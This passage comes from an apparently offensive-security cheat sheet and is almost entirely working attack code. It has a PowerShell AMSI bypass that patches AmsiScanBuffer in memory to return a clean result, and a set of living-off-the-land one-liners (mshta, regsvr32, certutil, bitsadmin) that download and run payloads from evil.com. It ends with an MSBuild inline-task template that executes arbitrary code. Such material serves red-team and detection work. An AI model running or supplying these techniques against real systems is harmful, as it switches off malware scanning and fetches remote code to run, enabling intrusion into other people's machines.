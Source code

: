 ```powershell
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")

$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)

# Patch to return AMSI_RESULT_CLEAN
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

### 2.3 Living Off the Land (LOLBins) (T1218)

Abuse legitimate system binaries to avoid detection.

```powershell
# Mshta.exe for script execution
mshta.exe javascript:a=GetObject("script:https://evil.com/payload.sct").Exec();close()

# Rundll32.exe for DLL execution
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();

# Regsvr32.exe for scriptlet execution
regsvr32.exe /s /n /u /i:http://evil.com/payload.sct scrobj.dll

# Certutil.exe for download
certutil.exe -urlcache -split -f http://evil.com/payload.exe payload.exe

# Bitsadmin.exe for background download
bitsadmin /transfer myDownload /download /priority high http://evil.com/payload.exe C:\Users\Public\payload.exe
```

#### MSBuild.exe Code Execution
```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using Microsoft.Build.Framework;
        
        public class ClassExample : Task {         
          public override bool Execute() {
            System.Diagnostics.Process.Start("cmd.exe", "/c calc.exe");
            return true;
          }
        }
      ]]>
      </Code>
```